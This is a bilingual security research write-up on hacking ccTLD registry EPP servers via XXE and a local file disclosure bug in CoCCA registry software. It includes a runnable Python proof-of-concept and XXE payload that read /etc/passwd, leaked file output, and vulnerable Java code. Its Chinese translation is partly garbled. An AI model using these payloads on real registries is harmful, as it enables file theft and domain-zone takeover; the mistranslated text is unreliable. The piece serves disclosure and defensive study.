




# 我能和你们经理谈谈吗？入侵 EPP 根服务器以控制区域

# can I speak to your manager? hacking root EPP servers to take control of zones  
我能和你们经理谈谈吗？入侵 EPP 根服务器以控制区域

Posted by [hackcompute group](https://hackcompute.com/author/hackcompute/) on June 12th, 2023. Tagged [writeups](https://hackcompute.com/tag/writeups/)  
由 hackcompute 组发布于 2023 年 6 月 12 日。Tagged WriteUp

Over the last few decades, the internet has been built upon specifications and protocols that often get forgotten about over time. Our research has often been focused on high impact targets (such as [Web Hackers vs. The Auto Industry](https://samcurry.net/web-hackers-vs-the-auto-industry/)) and for the last few weeks, we decided to investigate the security of ccTLD/TLD registries around the world.  
在过去的几十年里，互联网建立在规范和协议之上，这些规范和协议往往随着时间的推移而被遗忘。我们的研究通常集中在高影响力的目标上（例如 Web 黑客与汽车行业），在过去的几周里，我们决定调查世界各地的 cccid/cccid 注册表的安全性。

Our efforts in this space led to the ability to control the DNS zones of the following ccTLDs: .ai, .bj, .bw, .ci, .gl, .ke, .kn, .lb, .ly, .mr, .ms, .mz, .ng, .py, .rw, .so, .ss, .td, .zm.  
我们在这方面的努力使我们能够控制以下国家代码顶级域的 DNS 区域：.ai、.bj、.bw、.ci、.gl、.ke、.kn、.lb、.ly、.mr、.ms、.mz、.ng、.py、.rw、.so、.ss、.td、. zm。

This body of work was done by [Sam Curry](https://twitter.com/samwcyo), [Brett Buerhaus](https://twitter.com/bbuerhaus), [Rhys Elsmore](https://twitter.com/rhyselsmore), and [Shubham Shah](https://twitter.com/infosec_au).  
这项工作是由山姆咖喱，布雷特 Buerhaus，里斯 Elsmore，和 Shubham 沙阿。

```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"What's a registry, registrar and EPP server?"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

When we speak about registries, we are referring to the highest level of the chain. The registries are responsible for managing every domain registered within their zone and facilitate important functionalities for the registrars that speak to them.  
当我们谈论注册表时，我们指的是链的最高级别。注册机构负责管理在其区域内注册的每个域名，并为与他们交谈的注册商提供重要功能。

Through hacking a registry, we ultimately gain control over every domain within their zone, regardless of which registrar was responsible for registering the domain.  
通过入侵注册表，我们最终获得了对他们区域内每个域名的控制权，无论哪个注册商负责注册该域名。

The registrar is the middle man between the consumer and the registry. When you purchase a domain from a registrar, they speak with the registry and register the domain you have purchased.  
登记员是消费者和登记处之间的中间人。当您从注册商购买域名时，他们会与注册局联系并注册您购买的域名。

EPP (Extensible Provision Protocol) defines a unified way for how registrars can communicate with registries of domain names by exchanging XML messages.  
EPP（Extensible Provision Protocol）定义了一种统一的方式，用于注册商如何通过交换 XML 消息与域名注册机构进行通信。

EPP is typically implemented as an API between the registrar’s web interface and the Registry. Such integration allows the registrar to react immediately to requests from its clients and know for sure if the action succeeded or not. Should some action, such as registration of a domain name, to be put off until later, the registry will notify the registrar with the service message.  
EPP 通常作为注册商的 Web 界面和注册中心之间的 API 实现。这种集成允许注册服务器立即对其客户端的请求做出反应，并确定操作是否成功。如果某些操作（如域名注册）被推迟到以后，注册局将通过服务消息通知注册商。

EPP servers are arguably one of the most critical pieces of infrastructure in the world of domains.  
EPP 服务器可以说是域世界中最关键的基础设施之一。

From this context, you can understand that a critical vulnerability that affects a registry or their EPP server, is basically game over.  
从这个上下文中，您可以理解，影响注册表或其 EPP 服务器的关键漏洞基本上已经结束。

Gaining control over an entire root zone is not necessarily a new concept, however, historically, it has been executed through misconfigurations in DNS. [\[1\]](https://labs.detectify.com/2021/01/15/how-i-hijacked-the-top-level-domain-of-a-sovereign-state/) [\[2\]](https://thehackerblog.com/the-journey-to-hijacking-a-countrys-tld-the-hidden-risks-of-domain-extensions/) [\[3\]](https://thehackerblog.com/the-io-error-taking-control-of-all-io-domains-with-a-targeted-registration/)  
获得对整个根区域的控制权并不一定是一个新概念，但是，从历史上看，它是通过 DNS 中的错误配置执行的。\[1\]\[2\] \[3\]

While taking over ccTLD's over DNS misconfigurations are cool, our focus was to take over entire zones through vulnerabilities that affect the underlying protocols and web applications that run registries on the internet.  
虽然接管域名系统的错误配置很酷，但我们的重点是通过影响底层协议和在互联网上运行注册表的 Web 应用程序的漏洞来接管整个区域。

```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"Understanding the EPP protocol"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

EPP is quite simple actually. It runs on port `700` typically and all communication to the EPP server is done through XML over SSL/TLS. Registries are required to implement an EPP server so that registrars can speak to them and vice versa.  
EPP 其实很简单。它通常在端口 `700` 上运行，与 EPP 服务器的所有通信都是通过 SSL/TLS 上的 XML 完成的。注册机构需要实施 EPP 服务器，以便注册机构可以与他们交谈，反之亦然。

While the protocol is quite simple, many registries make an effort to secure access to their EPP servers through the enforcement of mutual TLS or requiring certain certificates in your CA chain to be able to communicate with them. The 'mutual' in mutual TLS is not the same as client-side certificates.  
虽然该协议非常简单，但许多注册中心通过实施双向 TLS 或要求 CA 链中的某些证书能够与它们进行通信来努力保护对其 EPP 服务器的访问。双向 TLS 中的“双向”与客户端证书不同。

An example EPP message looks like the one below  
EPP 消息示例如下所示

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0"><hello/></epp>
```

The EPP protocol is vast, but almost all functionality is only unlocked after authenticating to the EPP server. This whole protocol gets easier to understand once you put yourselves in the shoes of a domain reseller that needs to perform administrative actions on domains that they own.  
EPP 协议是巨大的，但几乎所有的功能都只有在向 EPP 服务器进行身份验证后才能解锁。一旦你把自己放在需要对他们拥有的域执行管理操作的域管理员的位置上，整个协议就变得更容易理解了。

They are able to connect to the registry EPP server, authenticate to it, and then make the relevant actions for domains they own (i.e. DNS transfer codes, updating WHOIS records). They should only be able to operate on the domains that are within their control.  
他们能够连接到注册表 EPP 服务器，对其进行身份验证，然后对他们拥有的域进行相关操作（即 DNS 传输代码，更新 WHOIS 记录）。他们应该只能在他们控制的域上操作。

As per Wikipedia, the protocol has been adopted by a number of ccTLD domain name registries, such as: [.ac](https://en.wikipedia.org/wiki/.ac), [.ag](https://en.wikipedia.org/wiki/.ag), [.ai](https://en.wikipedia.org/wiki/.ai), [.as](https://en.wikipedia.org/wiki/.as), [.ar](https://en.wikipedia.org/wiki/.ar), [.at](https://en.wikipedia.org/wiki/.at), [.au](https://en.wikipedia.org/wiki/.au), [.be](https://en.wikipedia.org/wiki/.be), [.br](https://en.wikipedia.org/wiki/.br), [.bz](https://en.wikipedia.org/wiki/.bz), [.ca](https://en.wikipedia.org/wiki/.ca), [.cat](https://en.wikipedia.org/wiki/.cat), [.cc](https://en.wikipedia.org/wiki/.cc), [.ch](https://en.wikipedia.org/wiki/.ch), [.cl](https://en.wikipedia.org/wiki/.cl), [.cn](https://en.wikipedia.org/wiki/.cn), [.co](https://en.wikipedia.org/wiki/.co), [.cr](https://en.wikipedia.org/wiki/.cr), [.cx](https://en.wikipedia.org/wiki/.cx), [.cz](https://en.wikipedia.org/wiki/.cz), [.dk](https://en.wikipedia.org/wiki/.dk), [.dm](https://en.wikipedia.org/wiki/.dm), [.ee](https://en.wikipedia.org/wiki/.ee), [.es](https://en.wikipedia.org/wiki/.es) (over HTTPS), [.eu](https://en.wikipedia.org/wiki/.eu), [.fi](https://en.wikipedia.org/wiki/.fi), [.fm](https://en.wikipedia.org/wiki/.fm), [.fr](https://en.wikipedia.org/wiki/.fr), [.gg](https://en.wikipedia.org/wiki/.gg), [.gr](https://en.wikipedia.org/wiki/.gr) (over HTTPS), [.gs](https://en.wikipedia.org/wiki/.gs), [.hn](https://en.wikipedia.org/wiki/.hn), [.ht](https://en.wikipedia.org/wiki/.ht), [.il](https://en.wikipedia.org/wiki/.il), [.im](https://en.wikipedia.org/wiki/.im), [.in](https://en.wikipedia.org/wiki/.in), [.io](https://en.wikipedia.org/wiki/.io), [.it](https://en.wikipedia.org/wiki/.it) (over HTTPS), [.je](https://en.wikipedia.org/wiki/.je), [.ke](https://en.wikipedia.org/wiki/.ke), [.ki](https://en.wikipedia.org/wiki/.ki), [.ky](https://en.wikipedia.org/wiki/.ky), [.kz](https://en.wikipedia.org/wiki/.kz), [.la](https://en.wikipedia.org/wiki/.la), [.lc](https://en.wikipedia.org/wiki/.lc), [.li](https://en.wikipedia.org/wiki/.li), [.lt](https://en.wikipedia.org/wiki/.lt), [.lu](https://en.wikipedia.org/wiki/.lu), [.lv](https://en.wikipedia.org/wiki/.lv), [.md](https://en.wikipedia.org/wiki/.md), [.me](https://en.wikipedia.org/wiki/.me), [.mk](https://en.wikipedia.org/wiki/.mk), [.mn](https://en.wikipedia.org/wiki/.mn), [.ms](https://en.wikipedia.org/wiki/.ms), [.mu](https://en.wikipedia.org/wiki/.mu), [.mx](https://en.wikipedia.org/wiki/.mx), [.na](https://en.wikipedia.org/wiki/.na), [.nf](https://en.wikipedia.org/wiki/.nf), [.ng](https://en.wikipedia.org/wiki/.ng), [.nl](https://en.wikipedia.org/wiki/.nl), [.no](https://en.wikipedia.org/wiki/.no), [.nu](https://en.wikipedia.org/wiki/.nu), [.nz](https://en.wikipedia.org/wiki/.nz) (EPP codes referred to as [UDAIs](https://en.wikipedia.org/wiki/Unique_Domain_Authentication_Identifier)), [.pe](https://en.wikipedia.org/wiki/.pe), [.pk](https://en.wikipedia.org/wiki/.pk), [.pl](https://en.wikipedia.org/wiki/.pl) (over HTTPS), [.ps](https://en.wikipedia.org/wiki/.ps), [.pt](https://en.wikipedia.org/wiki/.pt), [.ru](https://en.wikipedia.org/wiki/.ru), [.ro](https://en.wikipedia.org/wiki/.ro), [.sc](https://en.wikipedia.org/wiki/.sc), [.se](https://en.wikipedia.org/wiki/.se), [.sh](https://en.wikipedia.org/wiki/.sh), [.si](https://en.wikipedia.org/wiki/.si), [.su](https://en.wikipedia.org/wiki/.su), [.tl](https://en.wikipedia.org/wiki/.tl), [.tm](https://en.wikipedia.org/wiki/.tm) [.tv](https://en.wikipedia.org/wiki/.tv), [.tw](https://en.wikipedia.org/wiki/.tw), [.ua](https://en.wikipedia.org/wiki/.ua), [.uk](https://en.wikipedia.org/wiki/.uk), [.us](https://en.wikipedia.org/wiki/.us), [.vc](https://en.wikipedia.org/wiki/.vc), [.ve](https://en.wikipedia.org/wiki/.ve) and [.za](https://en.wikipedia.org/wiki/.za) as well as [ENUM](https://en.wikipedia.org/wiki/ENUM) registries such as those operating the +31, +41, +43, +44 and +48 country codes.[\[9\]](https://en.wikipedia.org/wiki/Extensible_Provisioning_Protocol#cite_note-9)  
根据 Wikipedia，该协议已被许多 ccknet 域名注册机构采用，例如：.ac、.ag、.ai、.as、.ar、.at、.Au、.be、.br、.bz、.ca、.cat、.cc、.ch、.cl、.cn、.co、.cr、.cx、.cz、.dk、.dm、.ee、.es（通过 HTTPS）、.eu、.fi、.fm、.fr、.gg、.gr（通过 HTTPS）、.gs、.hn、.ht、.il、.im、.in、.io、.it（通过 HTTPS）、.je、.ke、.ki、.ky、.kz、.la、.lc、.li、.lt、.lu、.lv、.md、.me、. mi、.mn、.ms、.mu、.mx、.na、.nf、.ng、.nl、.no、.nu、.nz（EPP 代码称为 UDAI）、.pe、.pk、.pl（通过 HTTPS）、.ps、.pt、.ru、.ro、.sc、.se、.sh、.si、.su、.tl、.tm、. tv、.tw、.ua、.uk、.us、.vc、.ve 和.za 以及 ENUM 注册表，诸如操作 +31、+41、+43、+44 和 +48 国家代码。 [\[9\]](https://en.wikipedia.org/wiki/Extensible_Provisioning_Protocol#cite_note-9)

```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"Attacking the EPP protocol"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

When hacking any system, you cannot make assumptions on its security posture as you will risk not testing certain vulnerability classes. Coming from the web application security angle, our immediate thoughts for targeting this protocol was testing for the presence of [XML external entity injection](https://portswigger.net/web-security/xxe).  
当黑客攻击任何系统时，你不能对它的安全状态做出假设，因为你将冒着不测试某些漏洞类的风险。从 Web 应用程序安全的角度来看，我们针对该协议的直接想法是测试 XML 外部实体注入的存在。

In order to do this, we modified a Python EPP client and crafted an XML payload in the correct format. This XML payload contained our XXE attack at the top. From scanning the internet and relying on passive data for IPs with port 700 open, we were able to amass a large list of EPP servers to attempt our research on.  
为了做到这一点，我们修改了一个 Python EPP 客户端，并以正确的格式制作了一个 XML 负载。这个 XML 有效载荷在顶部包含了我们的 XXE 攻击。通过扫描互联网并依赖于端口 700 打开的 IP 的被动数据，我们能够收集大量的 EPP 服务器来尝试我们的研究。

Our proof-of-concept was extremely effective:  
我们的概念验证非常有效：

```python
from epp import epp_client
import sys

ip = sys.argv[1]
try:
	conn = epp_client.EPPConnection(
		host=ip,
		port=700,
		user='epp_user_01',
		password='some_secret',
		verbose=True,
		return_soup=True,
	)
	conn.open()
	print(conn.call("<?xml version=\"1.0\" standalone=\"no\"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM \"file:///etc/passwd\"> ]> <epp xmlns=\"urn:ietf:params:xml:ns:epp-1.0\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xsi:schemaLocation=\"urn:ietf:params:xml:ns:epp-1.0 epp-1.0.xsd\"> <command> <poll op='req' /> <clTRID>&xxe;</clTRID> </command> </epp>".format(ip)))
except:
	print('failed lol')
```

Running this on a vulnerable server yielded the following:  
在易受攻击的服务器上运行此命令会产生以下结果：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?><html><body><epp xmlns="urn:ietf:params:xml:ns:epp-1.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemalocation="urn:ietf:params:xml:ns:epp-1.0 epp-1.0.xsd"><response><result code="2001"><msg>Command syntax error</msg><extvalue><value xmlns:epp="urn:ietf:params:xml:ns:epp-1.0"><epp:undef></epp:undef></value><reason>XML Parser: unknown-55ccdac19830:0: Schemas validity error : Element '{urn:ietf:params:xml:ns:epp-1.0}clTRID': [facet 'maxLength'] The value has a length of '1845'; this exceeds the allowed maximum length of '64'.
unknown-55ccdac19830:0: Schemas validity error : Element '{urn:ietf:params:xml:ns:epp-1.0}clTRID': 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
sysadm:x:1000:1000:Unprivileged Administrator Account,,,:/home/sysadm:/bin/bash
ansible:x:1001:1001:ansible user:/home/ansible:/bin/bash
sssd:x:106:112:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
bareos:x:107:113:bareos,,,:/var/lib/bareos:/usr/sbin/nologin
nagios:x:108:114::/var/lib/nagios:/usr/sbin/nologin
stunnel4:x:109:115::/var/run/stunnel4:/usr/sbin/nologin
ntp:x:110:116::/nonexistent:/usr/sbin/nologin
_lldpd:x:111:117::/var/run/lldpd:/usr/sbin/nologin
postfix:x:112:119::/var/spool/postfix:/usr/sbin/nologin
' is not a valid value of the atomic type '{urn:ietf:params:xml:ns:epp-1.0}trIDStringType'.
</reason></extvalue></result><trid><svtrid>RO-549-1682827377068386</svtrid></trid></response></epp>
```

Surprisingly, we saw a large number of EPP servers vulnerable to this simple XXE attack. We received over 50 callbacks to our Burp Collaborator server, and in the process of investigating these, we started to see a pattern. Most of the EPP servers that were vulnerable to this were running a registry software named [CoCCA Registry Software](https://cocca.org.nz/srs/).  
令人惊讶的是，我们看到大量的 EPP 服务器容易受到这种简单的 XXE 攻击。我们收到了超过 50 个对 Burp Collaborator 服务器的回调，在调查这些回调的过程中，我们开始看到一种模式。大多数易受此攻击的 EPP 服务器都运行名为 CoCCA Registry Software 的注册表软件。

This software allows registries to bootstrap their operations and provides all the functionalities needed for them to operate a TLD/ccTLD. This software has been instrumental in the proliferation of smaller ccTLDs as they often do not have the resources to build all of these functionalities themselves.  
这一软件使登记册能够引导其运作，并提供了运行登记册/ccp 所需的所有功能。该软件在小型 ccTLD 的扩散中发挥了重要作用，因为它们通常没有资源自行构建所有这些功能。

Often, ccTLDs are managed by small teams and sometimes this work is outsourced to Universities or private individuals. We sometimes do not recognize the sparseness of resources when it comes to our global internet infrastructure.  
通常，ccTLD 由小团队管理，有时这项工作外包给大学或私人。当涉及到我们的全球互联网基础设施时，我们有时没有意识到资源的稀缺性。

```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"Exploring the CoCCA Registry Software"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

The registry software includes a web application that is used to manage the registry, as well as an in-built EPP server where we discovered our XXE in. This application is written purely in Java, backed by a Postgres database.  
注册表软件包括一个用于管理注册表的 Web 应用程序，以及一个内置的 EPP 服务器，我们在其中发现了我们的 XXE。这个应用程序完全用 Java 编写，由 Postgres 数据库支持。

We were quickly able to identify the root cause of the XXE when looking at the `EppConnection.java` class, which initialised an XML reader through the following code:  
当查看 `EppConnection.java` 类时，我们很快就能够确定 XXE 的根本原因，该类通过以下代码初始化 XML 阅读器：

```java
/*     */   public EppConnection() {
/*     */     try {
/* 106 */       DocumentBuilderFactory dFactory = DocumentBuilderFactory.newInstance();
/* 107 */       dFactory.setNamespaceAware(true);
/* 108 */       dFactory.setIgnoringElementContentWhitespace(true);
/* 109 */       this.dBuilder = dFactory.newDocumentBuilder();
/*     */       
/* 111 */       TransformerFactory tFactory = TransformerFactory.newInstance();
/* 112 */       this.transformer = tFactory.newTransformer();
/* 113 */       this.transformer.setOutputProperty("encoding", "UTF-8");
/* 114 */     } catch (ParserConfigurationException e) {
/* 115 */       e.printStackTrace(System.out);
/* 116 */     } catch (TransformerConfigurationException e) {
/* 117 */       e.printStackTrace(System.out);
/*     */     } 
/*     */   }
```

As you can see above, the document builder factory that is used for all XML processing has not been set up to ignore external entities or DTDs. Due to this, any XML processing done by the in-built EPP server was vulnerable to XXE.  
正如您在上面看到的，用于所有 XML 处理的文档构建器工厂还没有设置为忽略外部实体或 DTD。因此，内置 EPP 服务器所做的任何 XML 处理都容易受到 XXE 的攻击。

The below XXE payload will successfully fire when the EPP server processes our XML:  
当 EPP 服务器处理我们的 XML 时，下面的 XXE 有效负载将成功触发：

```xml
<?xml version="1.0" standalone="no"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <epp xmlns="urn:ietf:params:xml:ns:epp-1.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="urn:ietf:params:xml:ns:epp-1.0 epp-1.0.xsd"> <command> <poll op='req' /> <clTRID>&xxe;</clTRID> </command> </epp>
```

This example was also utilized in our simple checker script above in this blog post, and the SYSTEM entity can be changed to a Burp Collaborator URL to capture out of bound hits.  
这个例子也被用在我们的简单检查器脚本中，SYSTEM 实体可以被更改为 Burp Collaborator URL 以捕获超出范围的命中。

While the XXE was an impactful finding, we became curious about the security posture of this registry software as it is used so heavily to operate a significant portion of the internet as we know it.  
虽然 XXE 是一个有影响力的发现，但我们对这个注册表软件的安全态势感到好奇，因为它被大量用于操作我们所知道的互联网的很大一部分。

Checking the `web.xml` file, we started mapping out pre-authentication routes until we came across the following servlet definition:  
检查 `web.xml` 文件，我们开始绘制预认证路由，直到我们遇到以下 servlet 定义：

```xml
	<!-- Cities servlet for contact create -->
	<servlet>
		<servlet-name>CitiesServlet</servlet-name>
		<servlet-class>cx.cocca.utils.CitiesServlet
		</servlet-class>
	</servlet>
	<servlet-mapping>
		<url-pattern>/cities</url-pattern>
		<servlet-name>CitiesServlet</servlet-name>
	</servlet-mapping>
```

The code for this servlet contained a local file disclosure vulnerability:  
此 servlet 的代码包含一个本地文件泄漏漏洞：

```java
public class CitiesServlet extends HttpServlet {
  private static final Log log = LogFactoryImpl.getLog(cx.cocca.utils.CitiesServlet.class);
  
  private static final String FILE = "/cities/cities_";
  
  protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    String country = req.getParameter("country");
    String fileName = "/cities/cities_" + country;
    log.debug("File name is " + fileName);
    try (InputStream is = getClass().getResourceAsStream(fileName)) {
      StringBuilder sb = new StringBuilder("{\"cities\": [");
      if (is != null) {
        List<String> cities = IOUtils.readLines(is, "UTF-8");
        boolean first = true;
        for (String city : cities) {
          if (!first)
            sb.append(", "); 
          sb.append("\"");
          sb.append(city);
          sb.append("\"");
          first = false;
        } 
      } 
      sb.append("]}");
      resp.setContentType("application/json");
      resp.getWriter().println(sb.toString());
    } catch (Exception e) {
      log.error("Error loading cities", e);
    } 
  }
}
```



We were able to chain the XXE vulnerability with this local file disclosure vulnerability to obtain any file on the local system.  
我们能够将 XXE 漏洞与此本地文件泄露漏洞链接起来，以获取本地系统上的任何文件。

The XXE provided us the ability to understand the file and folder structure of the underlying system and this local file disclosure vulnerability let us easily and cleanly download any file on the system.  
XXE 使我们能够理解底层系统的文件和文件夹结构，而这个本地文件泄露漏洞使我们能够轻松、干净地下载系统上的任何文件。

